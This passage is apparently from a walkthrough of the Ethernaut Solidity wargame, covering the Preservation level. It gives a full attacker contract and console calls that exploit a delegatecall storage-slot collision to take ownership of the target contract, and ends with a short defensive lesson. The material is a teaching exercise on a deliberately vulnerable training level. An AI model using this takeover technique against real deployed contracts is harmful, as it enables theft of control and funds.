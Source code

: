 We see here, that the `Preservation` contract uses delegatecall to call the `setTime` function of the `LibraryContract` contract. The `LibraryContract` contract has a `storedTime` variable, which is set by the `setTime` function.

`delegatecall` means, that the code of the `LibraryContract` contract is executed in the context of the `Preservation` contract. That means, that the `LibraryContract` has access to the storage and functions of the `Preservation` contract.

What's the problem here? The storage mapping is wrongly defined in the `LibraryContract`. Instead of being located in the
2nd slot of the storage, it is located at the 0th slot. That means, that the `storedTime` variable of the `LibraryContract` is
overwriting the `timeZone1Library` variable of the `Preservation` contract.

We can use that to our advantage. We will deploy a contract which is going to implement a `setTime` function, which is going to 
overwrite the `owner` variable of the `Preservation` contract.

Let's get to it :)

Our contract:

```solidity
contract AttackDelegateCall {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256 _time) public {
        owner = address(uint160(_time));
    }
}
```

Deploy the contract and save the address of the contract. In the browser console call

```
await contract.setSecondTime("0xaddress of your deployed contract")
// wait to be included
await contract.setFirstTime(player)
//wait to be included
await contract.owner()
// your are owner :)
```

and you are done :)

### Learning

Delegatecall is a powerful tool, but it can also be dangerous. Always make sure that the storage of the contract you are calling is correctly defined.

## Level 17: Recovery <a name="level-17-recovery"></a>

Let's have a look at the contract first:
